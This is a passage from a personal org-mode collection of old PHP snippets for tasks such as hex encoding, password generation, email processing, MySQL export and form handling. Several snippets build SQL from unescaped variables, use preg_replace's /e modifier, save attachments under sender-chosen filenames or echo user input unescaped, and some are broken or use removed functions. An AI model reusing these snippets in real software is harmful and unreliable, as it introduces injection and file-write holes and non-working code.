?> 
#+end_src

** Googlebot monitor
  
#+begin_src php
<?PHP
 
IF(EREGI("googlebot",$_SERVER['HTTP_USER_AGENT'])) {
  $s = "";
  FOREACH($_SERVER AS $item => $value) {
    $s .= "\n$item : $value";
  }
  $sdate = DATE("Y-m-d h:i:s");
  $message = <<<MESSAGE
Visit date:$sdate
Information:
=================================
$s
=================================
MESSAGE;
  IF($google_alert) {
    MAIL("youremail@yourdomain.com", "googlebot alert", $message);
  }
}
 
?>
#+end_src

** HEX Encode / Decode

#+begin_src php
<?PHP
 
   $text = "PHP rocks!";
   $encoded = PREG_REPLACE(
           "'(.)'e"
         ,"dechex(ord('\\1'))"
         ,$text
   );
   PRINT "ENCODED: $encoded\n";
 
?>
 
ENCODED: 50485020726f636b7321
 
<?PHP
 
   PRINT "DECODED: ".PREG_REPLACE(
       "'([\S,\d]{2})'e"
     ,"chr(hexdec('\\1'))"
     ,$encoded)."\n";
 
?>
 
DECODED: PHP rocks!
#+end_src

** HEX to RGB array

#+begin_src php
<?PHP
 
FUNCTION hex2dec($hex) {
  $color = STR_REPLACE('#', '', $hex);
  $ret = ARRAY(
   'r' => HEXDEC(SUBSTR($color, 0, 2)),
   'g' => HEXDEC(SUBSTR($color, 2, 2)),
   'b' => HEXDEC(SUBSTR($color, 4, 2))
  );
  RETURN $ret;
}
 
?>
#+end_src

** Perfect Highlighting Function

#+begin_src php
<?PHP
// highlight words in a string 
FUNCTION highlight($text, $search) {
   $text = PREG_REPLACE( "/(^|\s|,!|;)(".PREG_QUOTE($search, "/").")(\s|,|!|&|$)/i", "\\1<span class='hlstyle'>\\2</span>\\3", $text );
   RETURN $text;
}
 
?>
#+end_src

** Highlight Words #2

#+begin_src php
<?PHP
 
FUNCTION highlight($haystack,$needle){
   $haystack=PREG_REPLACE("/($needle)/i","<span style='font-weight:bold'>\${1}</span>",$haystack);
   RETURN $haystack;
}
 
?>
#+end_src

** Strip HTML to Text

#+begin_src php
<?PHP
 
FUNCTION html2text($html){
    $tags = ARRAY (
    0 => '~<h[123][^>]+>~si',
    1 => '~<h[456][^>]+>~si',
    2 => '~<table[^>]+>~si',
    3 => '~<tr[^>]+>~si',
    4 => '~<li[^>]+>~si',
    5 => '~<br[^>]+>~si',
    6 => '~<p[^>]+>~si',
    7 => '~<div[^>]+>~si',
    );
    $html = PREG_REPLACE($tags,"\n",$html);
    $html = PREG_REPLACE('~</t(d|h)>\s*<t(d|h)[^>]+>~si',' - ',$html);
    $html = PREG_REPLACE('~<[^>]+>~s','',$html);
    // reducing spaces
    $html = PREG_REPLACE('~ +~s',' ',$html);
    $html = PREG_REPLACE('~^\s+~m','',$html);
    $html = PREG_REPLACE('~\s+$~m','',$html);
    // reducing newlines
    $html = PREG_REPLACE('~\n+~s',"\n",$html);
    RETURN $html;
}
 
?>
#+end_src

** Improved Strip_Tags()

#+begin_src php
<?PHP
 
FUNCTION strip_tags_in_big_string($textstring){
WHILE($textstring != STRIP_TAGS($textstring))
   {
   WHILE (STRLEN($textstring) != 0)
         {
         IF (STRLEN($textstring) > 1024) {
             $otherlen = 1024;
         } ELSE {
             $otherlen = STRLEN($textstring);
         }
         $temptext = STRIP_TAGS(SUBSTR($textstring,0,$otherlen));
         $safetext .= $temptext;
         $textstring = SUBSTR_REPLACE($textstring,'',0,$otherlen);
         } 
   $textstring = $safetext;
   }
RETURN $textstring;
 
?>
#+end_src

** Insert Into Middle Of Text

#+begin_src php
<?PHP
 
// find the middle
$full_size = STRLEN($art_text);
$halfway_mark = ($full_size / 2);
 
// clip off the first half
$firsthalf = SUBSTR($art_text, 0, $halfway_mark);
 
// find the last '<br>' in the first half
$end_mark = STRRPOS($firsthalf, '<br>');
 
// add in the adblob at the position found above
$art_text = SUBSTR($art_text, 0, $end_mark) . "<p> $ADBLOB <p>" . SUBSTR($art_text, $end_mark); 
 
?>
#+end_src

** Invert Hex Color
#+begin_src php
<?PHP
 
FUNCTION inverseHex( $color )
{
     $color       = TRIM($color);
     $prependHash = FALSE;
 
     IF(STRPOS($color,'#')!==FALSE) {
          $prependHash = TRUE;
          $color       = STR_REPLACE('#',NULL,$color);
     }
 
     SWITCH($len=STRLEN($color)) {
          CASE 3:
               $color=PREG_REPLACE("/(.)(.)(.)/","\\1\\1\\2\\2\\3\\3",$color);
          CASE 6:
               BREAK;
          DEFAULT:
               TRIGGER_ERROR("Invalid hex length ($len). Must be (3) or (6)", E_USER_ERROR);
     }
 
     IF(!PREG_MATCH('/[a-f0-9]{6}/i',$color)) {
          $color = HTMLENTITIES($color);
          TRIGGER_ERROR( "Invalid hex string #$color", E_USER_ERROR );
     }
 
     $r = DECHEX(255-HEXDEC(SUBSTR($color,0,2)));
     $r = (STRLEN($r)>1)?$r:'0'.$r;
     $g = DECHEX(255-HEXDEC(SUBSTR($color,2,2)));
     $g = (STRLEN($g)>1)?$g:'0'.$g;
     $b = DECHEX(255-HEXDEC(SUBSTR($color,4,2)));
     $b = (STRLEN($b)>1)?$b:'0'.$b;
 
     RETURN ($prependHash?'#':NULL).$r.$g.$b;
}
 
// Demo
// echo inverseHex('#000000'); // #ffffff
?>
#+end_src

** Invert Hex Color #2
#+begin_src php
<?PHP
 
// precond: $color is a hex integer
// postcond: returns inversion
FUNCTION InvertColor($color){
  RETURN (int) 0xffffff - $color;
}
 
?>
#+end_src

** Live validation of email address
#+begin_src php
<?PHP
 
FUNCTION check_email($email){
   IF(@EREG("^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9-]+(\.[a-z0-9-]+)*(\.[a-z]{2,4})$", $email)){
 
       $url = SUBSTR(STRRCHR($email, "@"), 1);
       IF (STRSTR($url, "/")) {
           $url = EXPLODE("/", $url, 2);
           $url[1] = "/".$url[1];
       } ELSE {
           $url = ARRAY($url, "/");
       }
       $fh = @FSOCKOPEN($url[0], 80);
       IF ($fh) {
           @FPUTS($fh,"GET ".$url[1]." HTTP/1.1\nHost:".$url[0]."\n\n");
           IF (@FREAD($fh, 22) == "HTTP/1.1 404 Not Found") { RETURN FALSE; }
           ELSE { RETURN TRUE;    }
       } ELSE { RETURN FALSE;}
   }ELSE{
       RETURN FALSE;
   }
}
 
?>
#+end_src

** Nice 'Read More...' links
#+begin_src php
<?PHP
 
ECHO SUBSTR($entry['content'],0,STRPOS($entry['content'],".",200)+1)." <a href=\"your-link\">read more</a></p>\n";
 
?>
#+end_src

** Output as Word Doc format
#+begin_src php
<?PHP
 
$query = "SELECT * FROM TABLE  WHERE data = '$data'";
 
    $result = MYSQL_QUERY($query);
    $count = MYSQL_NUM_FIELDS($result); 
 
    FOR ($i = 0; $i < $count; $i++){ 
        IF (ISSET($header)) 
            $header .= MYSQL_FIELD_NAME($result, $i)."\t"; 
            ELSE 
                $header = MYSQL_FIELD_NAME($result, $i)."\t"; 
        } 
 
    WHILE ($row = MYSQL_FETCH_ROW($result)){ 
        $line = ''; 
 
        FOREACH ($row AS $value) 
            { 
            IF (!ISSET($value) || $value == '') 
                $value = "\t"; 
                ELSE 
                    { 
                    $value = STR_REPLACE('"', '""', $value); 
                    $value = '"'.$value.'"'."\t"; 
                    } 
 
            $line .= $value; 
            } 
 
        IF (ISSET($data)) 
            $data .= TRIM($line)."\n"; 
            ELSE 
                $data = TRIM($line)."\n"; 
        } 
 
    $data = STR_REPLACE("\r", "", $data); 
 
    IF ($data == '') 
        $data = "\nno matching records\n"; 
 
    HEADER("Content-Type: application/vnd.ms-word; name='word'"); 
    HEADER("Content-type: application/octet-stream"); 
    HEADER("Content-Disposition: attachment; filename=filename_here.doc"); 
    HEADER("Cache-Control: must-revalidate, post-check=0, pre-check=0"); 
    HEADER("Pragma: no-cache"); 
    HEADER("Expires: 0"); 
 
    ECHO $header."\n".$data; 
    EXIT;
 
?> 
#+end_src

** Pronouncable password generator
#+begin_src php
<?PHP
 
FUNCTION generatePassword($length=9, $strength=0) {
    $vowels = 'aeuy';
    $consonants = 'bdghjmnpqrstvz';
    IF ($strength & 1) {
        $consonants .= 'BDGHJLMNPQRSTVWXZ';
    }
    IF ($strength & 2) {
        $vowels .= "AEUY";
    }
    IF ($strength & 4) {
        $consonants .= '23456789';
    }
    IF ($strength & 8) {
        $consonants .= '@#$%';
    }
 
    $password = '';
    $alt = TIME() % 2;
    FOR ($i = 0; $i < $length; $i++) {
        IF ($alt == 1) {
            $password .= $consonants[(RAND() % STRLEN($consonants))];
            $alt = 0;
        } ELSE {
            $password .= $vowels[(RAND() % STRLEN($vowels))];
            $alt = 1;
        }
    }
    RETURN $password;
}
 
?>
#+end_src

** Automatically process email
#+begin_src php
 <?PHP
 
/*
Prerequisites:
Linux/BSD
PHP with CLI enabled
PEAR
Sendmail with individual user account
 
Aim: Save attachments to server storage.
 
1. Setup sendmail account to forward to PHP script.
 
In the home directory (/home/user) on the foo.bar machine make 
and edit a file called ".forward". In this file put in the 
following.
 
|"/dir_to_php_script/process.php"
 
This will forward any email sent to user@foo.bar.com to the 
php script.
 
2. PHP script to process email "/dir_to_php_script/process.php"
[Don't forget to chmod 755 process.php]
 
*/
 
// begin contents of process.php
#!/usr/local/bin/php
<?PHP
// Need PEAR installed
INCLUDE('Mail.php');
INCLUDE('Mail/mime.php');
REQUIRE_ONCE 'Mail/mimeDecode.php';
 
// read email using stdin
$fd = FOPEN("php://stdin", "r");
$email = "";
WHILE (!FEOF($fd)) {
        $email .= FREAD($fd, 1024);
}
FCLOSE($fd);
 
$params['include_bodies'] = TRUE;
$params['decode_bodies']  = TRUE;
$params['decode_headers'] = TRUE;
 
$message=NEW Mail_mimeDecode($email);
$mailObj=$message->decode($params);
 
// Who is it from
$from=$mailObj->headers['from'];
// Get Subject
$subj=$mailObj->headers['subject'];
// Get Message Body
$body=$mailObj->parts[0]->body;
$gather="From:$from\nSubject:$subj\nBody:$body";
 
 
// Get and Save the Attachments
FOREACH($mailObj->parts AS $key=>$val):
        $tmpObj=$mailObj->parts[$key];
        $tmp=$tmpObj->d_parameters['filename'];
        IF(!EMPTY($tmp)):
                $fd = FOPEN($tmp, 'w');
                FWRITE($fd, $tmpObj->body);
        ENDIF;
 
} //endforeach;
 
// end of contents of process.php
?>
 
//Posted by Christian in Php at 07:04 
#+end_src

** Prompt user at command line
#+begin_src php
<?PHP
 
ECHO "Give me your name: ";
$data = FOPEN("php://stdin", "rb");
 
WHILE (1==1) {
   $chunk = FREAD($data, 1);
   IF ($chunk == "\n" || $chunk == "\r") BREAK;
   $input .= $chunk;
}
FCLOSE($data);
 
ECHO "Hello $input!\n";
 
?>
#+end_src

** Protect Writable Directory

Use this in writeable directories in .htaccess. 
This prevents execution of php files but allows everything else.

#+begin_src
<Files ~ "\.(php)$">
order deny,allow
allow from <my ip address>
deny from all
</Files>
#+end_src

** Random Pronounceable Passwords
#+begin_src php
<?PHP
 
FUNCTION auth_pwgen(){
  $pw = '';
  $c  = 'bcdfghjklmnprstvwz'; //consonants except hard to speak ones
  $v  = 'aeiou';              //vowels
  $a  = $c.$v;                //both
 
  //use two syllables...
  FOR($i=0;$i < 2; $i++){
    $pw .= $c[RAND(0, STRLEN($c)-1)];
    $pw .= $v[RAND(0, STRLEN($v)-1)];
    $pw .= $a[RAND(0, STRLEN($a)-1)];
  }
  //... and add a nice number
  $pw .= RAND(10,99);
 
  RETURN $pw;
}
 
?>
#+end_src

** Unique Array function
Similar to array_unique(), but implemented manually

#+begin_src php
<?PHP
 
FUNCTION uniqueArray($array)
{
// Get unique elts as keys in assoc. array
FOR ($i=0,$n=COUNT($array, 1);$i<$n;$i++)
     $u_array[$array[$i]] = 1;
 
// Copy keys only into another array
RESET($u_array, 1);
FOR ($i=0,$n=COUNT($u_array, 1);$i<$n;$i++) {
     $unduplicated_array[] = KEY($u_array, 1);
     NEXT($u_array, 1);
}
RETURN $unduplicated_array;
}
 
?>
#+end_src

** Remove extra linebreaks
#+begin_src php
<?PHP
 
$string = PREG_REPLACE('/(\r?\n){2,}/', "\n\n", $string);  
 
?>
#+end_src

** Show mySQL table as HTML
#+begin_src php
<?PHP
 
$table = 'spheres';
 
IF (!MYSQL_CONNECT($db_host, $db_user, $db_pwd))
    DIE("Can't connect to database");
 
IF (!MYSQL_SELECT_DB($database)) DIE("Can't select database");
 
// sending query
$result = MYSQL_QUERY("SELECT * FROM {$table}");
IF (!$result) {
    DIE("Query to show fields from table failed");
}
 
$fields_num = MYSQL_NUM_FIELDS($result);
 
ECHO "<h1>Table: {$table}</h1>";
ECHO "<table border='1'><tr>";
// printing table headers
FOR($i=0; $i<$fields_num; $i++)
{
    $field = MYSQL_FETCH_FIELD($result);
    ECHO "<td>{$field->name}</td>";
}
ECHO "</tr>\n";
// printing table rows
WHILE($row = MYSQL_FETCH_ROW($result))
{
    ECHO "<tr>";
 
    // $row is array... foreach( .. ) puts every element
    // of $row to $cell variable
    FOREACH($row AS $cell)
        ECHO "<td>$cell</td>";
 
    ECHO "</tr>\n";
}
MYSQL_FREE_RESULT($result);
 
?>
#+end_src

** Split all chars in string
#+begin_src php
<?PHP
 
// Make the function
FUNCTION Split_String($String) {
    // Get the String Length
    $STR_LEN = STRLEN($String);
 
    // To prevent notice errors
    $New_String = "";
 
    // Loop for each character
    FOR ($i = 0; $i < $STR_LEN; $i++) {
        // Set it to a variable, you can also echo it...
        $New_String .= $String{$i} . "<br />";
    }
 
    // Return the new variable
    RETURN $New_String;
}
 
// Set the text to be split
$text = "test test test lol...";
 
// Echo the outputs of what the function does
ECHO Split_String($text);
 
?> 
#+end_src

** Split URL into parts #1
#+begin_src php
<?PHP
 
$fullurl = "http://www.domain.com/cgi-bin/printurl.cgi?url=http://test.com&email=foobar@reserved.com";
 
ECHO "The full URL: " . $fullurl . "<br><br>\n";
 
$fullurl = EREGI_REPLACE("http://", "", $fullurl);
ECHO "The full URL without http: " . $fullurl . "<br><br>\n";
 
$request_part =  STRISTR($fullurl, "/");
ECHO "The request part: " . $request_part . "<br><br>\n";
 
$main_url = SUBSTR($fullurl, 0, STRPOS($fullurl, "/"));
ECHO "The domain only: $main_url";
 
?>
#+end_src

** Truncate Links Over X Chars long
#+begin_src php
<?PHP
 
FUNCTION handle_url_tag($url, $link = ''){
     GLOBAL $FORUM_user;
 
     // maximum link length
     $MAXLEN = 50;
 
     // if too long, clip it to how many chars?
     $CLIPTO = 45;
 
     $full_url = STR_REPLACE(ARRAY(' ', '\'', '`', '"'), array('%20', '', '', ''), $url);
     if (strpos($url, 'www.') === 0)               // If it starts with www, we add http://
          $full_url = 'http://'.$full_url;
     else if (strpos($url, 'ftp.') === 0)     // Else if it starts with ftp, we add ftp://
          $full_url = 'ftp://'.$full_url;
     else if (!preg_match('#^([a-z0-9]{3,6})://#', $url, $bah))      // Else if it doesn't start with abcdef://, we add http://
          $full_url = 'http://'.$full_url;
 
     // Ok, not very pretty :-)
     $link = ($link == '' || $link == $url) ? ((strlen($url) > $MAXLEN) ? substr($url, 0 , $CLIPTO).' … '.substr($url, -10) : $url) : stripslashes($link);
 
     return '<a href="'.$full_url.'">'.$link.'</a>';
}
 
?>
#+end_src

** Use SendMail
#+begin_src php
<?PHP
 
$fd = POPEN("/usr/sbin/sendmail -t","w");
   FPUTS($fd, "To: myaddress@domain.tld ");
   FPUTS($fd, "From: Me ");
   FPUTS($fd, "Subject: Test message from my web site ");
   FPUTS($fd, "X-Mailer: PHP3 ");
   FPUTS($fd, "Testing. ");
PCLOSE($fd);
 
?>
#+end_src

** Write text onto an image
#+begin_src php
<?PHP
 
// load the image from the file specified:
$im = imagecreatefrompng("image.png");
// if there's an error, stop processing the page:
IF(!$im)
{
DIE("");
}
 
// define some colours to use with the image
$yellow = imagecolorallocate($im, 255, 255, 0);
$black = imagecolorallocate($im, 0, 0, 0);
 
// get the width and the height of the image
$width = imagesx($im);
$height = imagesy($im);
 
// draw a black rectangle across the bottom, say, 20 pixels of the image:
imagefilledrectangle($im, 0, ($height-20) , $width, $height, $black);
 
// now we want to write in the centre of the rectangle:
$font = 4; // store the int ID of the system font we're using in $font
$text = "vdhri.net"; // store the text we're going to write in $text
// calculate the left position of the text:
$leftTextPos = ( $width - imagefontwidth($font)*STRLEN($text) )/2;
// finally, write the string:
imagestring($im, $font, $leftTextPos, $height-18, $text, $yellow);
 
// output the image
// tell the browser what we're sending it
HEADER('Content-type: image/png');
// output the image as a png
imagepng($im);
 
// tidy up
imagedestroy($im);
 
?>
#+end_src

** PHP to JavaScript Array
#+begin_src php
 <?PHP
 
/*
 * Converts a PHP array to a JavaScript array
 *
 * Takes a PHP array, and returns a string formated as a 
 * JavaScript array that exactly matches the PHP array.
 *
 * @param       array  $phpArray  The PHP array
 * @param       string $jsArrayName   The name for the JavaScript array
 * @return      string
 */
 
FUNCTION get_javascript_array($phpArray, $jsArrayName, &$html = '') {
        $html .= $jsArrayName . " = new Array(); \r\n ";
        FOREACH ($phpArray AS $key => $value) {
                $outKey = (IS_INT($key)) ? '[' . $key . ']' : "['" . $key . "']";
 
                IF (IS_ARRAY($value)) {
                        get_javascript_array($value, $jsArrayName . $outKey, $html);
                        CONTINUE;
                }
                $html .= $jsArrayName . $outKey . " = ";
                IF (IS_STRING($value)) {
                        $html .= "'" . $value . "'; \r\n ";
                } ELSE IF ($value === FALSE) {
                        $html .= "false; \r\n";
                } ELSE IF ($value === NULL) {
                        $html .= "null; \r\n";
                } ELSE IF ($value === TRUE) {
                        $html .= "true; \r\n";
                } ELSE {
                        $html .= $value . "; \r\n";
                }
        }
 
        RETURN $html;
}
 
?>
#+end_src

** Universal parameter reading

#+begin_src php
<?PHP
 
FUNCTION param($Name)
{
  GLOBAL $HTTP_GET_VARS;
  GLOBAL $HTTP_POST_VARS;
  GLOBAL $HTTP_COOKIE_VARS;

  IF(ISSET($HTTP_GET_VARS[$Name]))
    RETURN($HTTP_GET_VARS[$Name]);

  IF(ISSET($HTTP_POST_VARS[$Name]))
    RETURN($HTTP_POST_VARS[$Name]);

  IF(ISSET($HTTP_COOKIE_VARS[$Name]))
    RETURN($HTTP_COOKIE_VARS[$Name]);

  RETURN("");
}                

?>
#+end_src

** Heavy Duty URL validator
#+begin_src php
<?PHP
 
$valid = "^(https?|ftp)\:\/\/([a-z0-9+!*(),;?&=\$_.-]+(\:[a-z0-9+!*(),;?&=\$_.-]+)?@)?[a-z0-9+\$_-]+(\.[a-z0-9+\$_-]+)*(\:[0-9]{2,5})?(\/([a-z0-9+\$_-]\.?)+)*\/?(\?[a-z+&\$_.-][a-z0-9;:@/&%=+\$_.-]*)?(#[a-z_.-][a-z0-9+\$_.-]*)?\$";
 
?>
#+end_src

** Create thumbnails with PHP
#+begin_src php
<?PHP
 
FUNCTION thumbnail($image_path,$thumb_path,$image_name,$thumb_width) 
{ 
    $src_img = imagecreatefromjpeg("$image_path/$image_name"); 
    $origw=imagesx($src_img); 
    $origh=imagesy($src_img); 
    $new_w = $thumb_width; 
    $diff=$origw/$new_w; 
    $new_h=$new_w; 
    $dst_img = imagecreate($new_w,$new_h); 
    imagecopyresized($dst_img,$src_img,0,0,0,0,$new_w,$new_h,imagesx($src_img),imagesy($src_img)); 
 
    imagejpeg($dst_img, "$thumb_path/$image_name"); 
    RETURN TRUE; 
} 
 
?>
#+end_src

** Export table to Excel or MS Word file
#+begin_src php
<?PHP
 
//EDIT YOUR MySQL Connection Info:
$DB_Server = "";        //your MySQL Server
$DB_Username = "";                 //your MySQL User Name
$DB_Password = "";                //your MySQL Password
$DB_DBName = "";                //your MySQL Database Name
$DB_TBLName = "";                //your MySQL Table Name
 
//$DB_TBLName,  $DB_DBName, may also be commented out & passed to the browser
//as parameters in a query string, so that this code may be easily reused for
//any MySQL table or any MySQL database on your server
 
//DEFINE SQL QUERY:
//edit this to suit your needs
$sql = "Select * from $DB_TBLName";
 
//Optional: print out title to top of Excel or Word file with Timestamp
//for when file was generated:
//set $Use_Titel = 1 to generate title, 0 not to use title
$Use_Title = 1;
//define date for title: EDIT this to create the time-format you need
$now_date = DATE('m-d-Y H:i');
//define title for .doc or .xls file: EDIT this if you want
$title = "Dump For Table $DB_TBLName from Database $DB_DBName on $now_date";
/*
 
Leave the connection info below as it is:
just edit the above.
 
(Editing of code past this point recommended only for advanced users.)
*/
//create MySQL connection
$Connect = @MYSQL_CONNECT($DB_Server, $DB_Username, $DB_Password)
     or DIE("Couldn't connect to MySQL:<br>" . MYSQL_ERROR() . "<br>" . MYSQL_ERRNO());
//select database
$Db = @MYSQL_SELECT_DB($DB_DBName, $Connect)
     or DIE("Couldn't select database:<br>" . MYSQL_ERROR(). "<br>" . MYSQL_ERRNO());
//execute query
$result = @MYSQL_QUERY($sql,$Connect)
     or DIE("Couldn't execute query:<br>" . MYSQL_ERROR(). "<br>" . MYSQL_ERRNO());
 
//if this parameter is included ($w=1), file returned will be in word format ('.doc')
//if parameter is not included, file returned will be in excel format ('.xls')
IF (ISSET($w) && ($w==1))
{
     $file_type = "msword";
     $file_ending = "doc";
}ELSE {
     $file_type = "vnd.ms-excel";
     $file_ending = "xls";
}
//header info for browser: determines file type ('.doc' or '.xls')
HEADER("Content-Type: application/$file_type");
HEADER("Content-Disposition: attachment; filename=database_dump.$file_ending");
HEADER("Pragma: no-cache");
HEADER("Expires: 0");
 
/*    Start of Formatting for Word or Excel    */
 
IF (ISSET($w) && ($w==1)) //check for $w again
{
     /*    FORMATTING FOR WORD DOCUMENTS ('.doc')   */
     //create title with timestamp:
     IF ($Use_Title == 1)
     {
         ECHO("$title\n\n");
     }
     //define separator (defines columns in excel & tabs in word)
     $sep = "\n"; //new line character
 
     WHILE($row = MYSQL_FETCH_ROW($result))
     {
         //set_time_limit(60); // HaRa
         $schema_insert = "";
         FOR($j=0; $j<mysql_num_fields($result);$j++)
         {
         //define field names
         $field_name = MYSQL_FIELD_NAME($result,$j);
         //will show name of fields
         $schema_insert .= "$field_name:\t";
             IF(!ISSET($row[$j])) {
                 $schema_insert .= "NULL".$sep;
                 }
             ELSEIF ($row[$j] != "") {
                 $schema_insert .= "$row[$j]".$sep;
                 }
             ELSE {
                 $schema_insert .= "".$sep;
                 }
         }
         $schema_insert = STR_REPLACE($sep."$", "", $schema_insert);
         $schema_insert .= "\t";
         PRINT(TRIM($schema_insert));
         //end of each mysql row
         //creates line to separate data from each MySQL table row
         PRINT "\n----------------------------------------------------\n";
     }
}ELSE{
     /*    FORMATTING FOR EXCEL DOCUMENTS ('.xls')   */
     //create title with timestamp:
     IF ($Use_Title == 1)
     {
         ECHO("$title\n");
     }
     //define separator (defines columns in excel & tabs in word)
     $sep = "\t"; //tabbed character
 
     //start of printing column names as names of MySQL fields
     FOR ($i = 0; $i < MYSQL_NUM_FIELDS($result); $i++)
     {
         ECHO MYSQL_FIELD_NAME($result,$i) . "\t";
     }
     PRINT("\n");
     //end of printing column names
 
     //start while loop to get data
     WHILE($row = MYSQL_FETCH_ROW($result))
     {
         //set_time_limit(60); // HaRa
         $schema_insert = "";
         FOR($j=0; $j<mysql_num_fields($result);$j++)
         {
             IF(!ISSET($row[$j]))
                 $schema_insert .= "NULL".$sep;
             ELSEIF ($row[$j] != "")
                 $schema_insert .= "$row[$j]".$sep;
             ELSE
                 $schema_insert .= "".$sep;
         }
         $schema_insert = STR_REPLACE($sep."$", "", $schema_insert);
         //following fix suggested by Josue (thanks, Josue!)
         //this corrects output in excel when table fields contain \n or \r
         //these two characters are now replaced with a space
         $schema_insert = PREG_REPLACE("/\r\n|\n\r|\n|\r/", " ", $schema_insert);
         $schema_insert .= "\t";
         PRINT(TRIM($schema_insert));
         PRINT "\n";
     }
}
 
?>
#+end_src

** Simple DB connection class
#+begin_src php
<?PHP
 
CLASS DB_Class {
 
     VAR $db;
     ///////////////////////////
     FUNCTION DB_Class($dbname, $username, $password) {
          $this->db = MYSQL_CONNECT ('localhost', $username, $password)
           or DIE ("Unable to connect to Database Server");
 
          MYSQL_SELECT_DB ($dbname, $this->db) or DIE ("Could not select database");
     }
 
     FUNCTION query($sql) {
          $result = MYSQL_QUERY ($sql, $this->db) or DIE ("Invalid query: " . MYSQL_ERROR());
          RETURN $result;
     }
     ///////////////////////////
     FUNCTION fetch($sql) {
          $data = ARRAY();
          $result = $this->query($sql);
 
          WHILE($row = MYSQL_FETCH_ASSOC($result)) {
               $data[] = $row;
          }
               RETURN $data;
     }
     ///////////////////////////
     FUNCTION getone($sql) {
     $result = $this->query($sql);
 
     IF(MYSQL_NUM_ROWS($result) == 0)
          $value = FALSE;
     ELSE
          $value = MYSQL_RESULT($result, 0);
          RETURN $value;
     }
     ///////////////////////////
}
?>
 
// usage example....
 
<?PHP
 
$dbconnect = NEW DB_Class('table', 'user', 'password');
$query = "SELECT user_id FROM user_table WHERE $match = $search ORDER BY user_id DESC";
$result = $dbconnect->fetch($query);
 
?> 
#+end_src

** Language Specific Response
#+begin_src php
 <?PHP
 
$languages_supported_by_browser=$_SERVER["HTTP_ACCEPT_LANGUAGE"];
 
$pos=STRPOS($languages_supported_by_browser,";");
 
IF ($pos>0) {
    $languages_supported_by_browser =
        SUBSTR($languages_supported_by_browser,0,$pos);
}
 
$languages=SPLIT(",",$languages_supported_by_browser);
 
ECHO "First language supported by browser is: ".
        $languages[0].".";
 
?>
 
 
#+end_src

** Delete all cookies set
#+begin_src php
<?PHP
 
FOREACH($_COOKIE AS $key => $value) {
     SETCOOKIE($key,$value,TIME()-10000,"/",".domain.com");
}
 
?>
#+end_src

** Find the current URL of the page
#+begin_src php
<?PHP
 
FUNCTION getCurrentPage() {
     $thedomain .= "http://";
     $thedomain .= $_SERVER['HTTP_HOST'];
     $thedomain .= $_SERVER['REQUEST_URI'];
     RETURN $thedomain ;
}
 
ECHO "The current URL is: ".getCurrentPage()."!";
 
?>
#+end_src

** Check if a URL exists with cURL
#+begin_src php
function urlExists($url=NULL)
	{
		if($url == NULL) return false;
		$ch = curl_init($url);
		curl_setopt($ch, CURLOPT_TIMEOUT, 5);
		curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 5);
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
		$data = curl_exec($ch);
		$httpcode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
		curl_close($ch); 
		if($httpcode>=200 && $httpcode<300){
			return true;
		} else {
			return false;
		}
	}
#+end_src

** Issue a ping command from a PHP script
#+begin_src php 
<?php
$str = exec("ping -c 1 www.google.com");
if ($result == 0){
  echo "ping succeeded";
}else{
  echo "ping failed";
}
?>
#+end_src

** Handle comma separated input
The code below will turn your POST variable into an array containing the user’s
input which you can further validate or store in a database. This is useful for
letting users add tags to items on your website
#+begin_src php
$tagsString = isset($_POST['tags']) ? (string)strip_tags($_POST['tags']) : '';
if ($tagsString != '') {
	$tags_array = explode(",", $tagsString);
	$tags_array = array_unique($tags_array); //no dups, please
	foreach($tags_array AS $key => $tag)
	{
		$tag = trim(stripslashes($tag));
		if($tag == '') continue; //skips if empty
		echo $key.' - '.$tag;
	}
}
#+end_src

** Check image type in PHP
if you’re looking to determine the type of uploaded image you can use the following code:

#+begin_src php
$type = exif_imagetype($_FILES['uploaded_image']['tmp_name']);
if ($type == 1 || $type == 2 || $type == 3)
{
//image type is jpg, gif or png
}
#+end_src

** Write to STDERR in a PHP script
just use the PHP fwrite function like this:
#+begin_src php
fwrite(STDERR, “hello, world\n”);
#+end_src 

Or, in a more real-world example, here's how I'm writing MySQL error messages to
STDERR in PHP:
#+begin_src php 
fwrite(STDERR, "MySQL INSERT error on \"INSERT INTO files\" statement: " . mysql_error());
#+end_src 

** A simple PHP form example
#+begin_src php
<?php
// created by alvin alexander, http://devdaily.com
$first_name = $_POST["first_name"];
$last_name = $_POST["last_name"];
?>

<html>
<head>
<title>Simple PHP Form Example</title>
</head>

<body>

<?php
if (!isset($_POST['submit']))
{
  // display the form
  ?>
  <p>
  <form method="post" action="<?php echo $PHP_SELF;?>">
  First Name: <input type="text" name="first_name">
  <br/>Last Name: <input type="text" name="last_name">
  <br/><input type="submit" value="submit" name="submit">
  </form>
  </p>

<?
}
else
{
  // display the output
  echo "<p>";
  echo "First Name: $first_name<br />";
  echo "Last Name: $last_name<br />";
  echo "</p>";
}
?>

</body>
</html>
#+end_src

** read command line arguments
You just need to access the PHP argv array, as shown in this example:
#+begin_src php 
#!/usr/bin/php
<?php
// loop through each element in the $argv array
foreach($argv as $value)
{
  echo "$value\n";
}
?>
#+end_src 

If I save this file as argtest.php, and then run it, like this:

#+begin_src shell
php argtest.php foo bar baz
# I'll get the following output from the script:
argtest.php
foo
bar
baz
#+end_src 

** Remote file_exist()
#+begin_src php
<?PHP
 
FUNCTION remote_file_exists($url){
    RETURN (bool)PREG_MATCH('~HTTP/1\.\d\s+200\s+OK~', @CURRENT(get_headers($url)));
}  
 
?>
#+end_src

** the protocol that is being used to serve the request

#+begin_src php
protected static function getProtocol() 
{ 
    $protocol = (!empty($_SERVER['HTTPS']) && $_SERVER['HTTPS'] !== 'off' || $_SERVER['SERVER_PORT'] == 443) ? "https://" : "http://"; 
    return $protocol; 
} 
#+end_src 

** PHP/jQuery Ajax testing template
#+begin_src php
<?php
 
if (isset($_GET['ajax'])) {
    if (!isset($_POST['action'])) {
        exit;
    }
 
    switch ($_POST['action']) {
        case 'demo1':            
            echo json_encode(array('test' => 'Hello world!'));
            break;
        default:
            break;
    }
 
    exit;
}
 
?><!DOCTYPE html>
 
<html>
 
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
        <title>Ajax testing template</title>
        <script type="text/javascript" src="http://ajax.googleapis.com/ajax/libs/jquery/1.4/jquery.min.js"></script>
 
        <script type="text/javascript">
 
            function ajaxCallDemo1()
            {
                $.ajax({
                    type     : "POST",
                    async    : true,
                    url      : "?ajax",
                    cache    : false,
                    data     : {action      : 'demo1'},
